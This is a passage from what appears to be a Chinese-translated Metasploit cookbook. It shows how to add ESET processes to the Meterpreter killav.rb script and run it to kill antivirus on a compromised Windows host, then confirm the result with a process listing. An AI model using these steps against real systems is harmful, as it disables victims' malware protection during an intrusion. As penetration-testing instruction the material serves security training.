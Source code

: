 如我们所见，即使使用了 `killav.rb`脚本，这两个防病毒进程仍然有效。让我们先看一下 `killav.rb`脚本。

## 怎么做。。。

1.  要查看和编辑 `killav.rb`脚本，请打开新的终端窗口并浏览至 `/pentest/exploits/framework3/scripts/meterpreter`。

    ```
    root@bt: cd /pentest/exploits/framework3/scripts/meterpreter
    root@bt:/pentest/exploits/framework3/scripts/meterpreter# vim killav.rb 
    ```

2.  `vim`是 Unix 中文件的快速编辑器。它将在我们的屏幕上打开整个脚本。向下滚动以查找其中列出的各种流程。这些是脚本希望杀死的进程。检查整个列表以查找 `eset.exe`和 `egui.exe`。如果它们不可用，则在脚本中添加这两个进程。要在 vim 中启动编辑模式，请按*a*键。它将启动插入模式。现在在脚本的进程列表中添加这两个进程。

    ```
    @@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    usage
    end
    }
    print_status("Killing Antivirus services on the target...")
    avs = %W{
    egui.exe
    eset.exe
    AAWTray.exe
    Ad-Aware.exe
    MSASCui.exe
    _avp32.exe 
    ```

3.  下面的代码片段显示了在列表顶部添加的两个进程。要退出插入模式，请按*esc*键。现在要保存脚本，请按*：*键。您将看到 vim 编辑器的迷你命令提示符。现在键入 `wq`保存并退出编辑器。

    ```
    :wq

    ```

4.  现在回到 MeterMeter 会话，再次执行 `killav.rb`脚本，并注意发生了什么。

    ```
    meterpreter > run killav.rb
    [*] Killing Antivirus services on the target...
    [*] Killing off egui.exe...
    [*] Killing off eset.exe... 
    ```

5.  命令执行的输出显示脚本成功地终止了这两个进程。现在，为了验证是否所有防病毒进程都已被杀死，我们将再次执行 `ps`命令进行交叉检查（输出缩短为适合）。

    ```
    meterpretr> ps
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni. 
    ```
